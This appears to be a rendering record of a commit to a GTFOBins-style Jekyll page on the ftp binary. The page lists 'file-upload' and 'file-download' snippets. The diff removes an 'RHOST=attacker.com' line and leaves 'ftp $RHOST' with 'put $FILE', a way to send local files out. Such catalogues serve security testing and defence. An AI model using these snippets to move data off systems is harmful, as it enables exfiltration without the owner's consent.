

Before and after one commit to GTFOud/GTFOud.github.io, a Jekyll site: the page built from _gtfoud/ftp.md, in a window 1280 px wide, cut to the strip 339-824 px from the top of the page. Shown: the whole strip, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update ftp.md

```diff
--- a/_gtfoud/ftp.md
+++ b/_gtfoud/ftp.md
@@ -3,13 +3,11 @@ functions:
   file-upload:
     - description: Send local file to a FTP server.
       code: |
-        RHOST=attacker.com
         ftp $RHOST
-        put file_to_send
+        put $FILE
   file-download:
     - description: Fetch a remote file from a FTP server.
       code: |
-        RHOST=attacker.com
         ftp $RHOST
-        get file_to_get
+        get $FILE
 ---
```
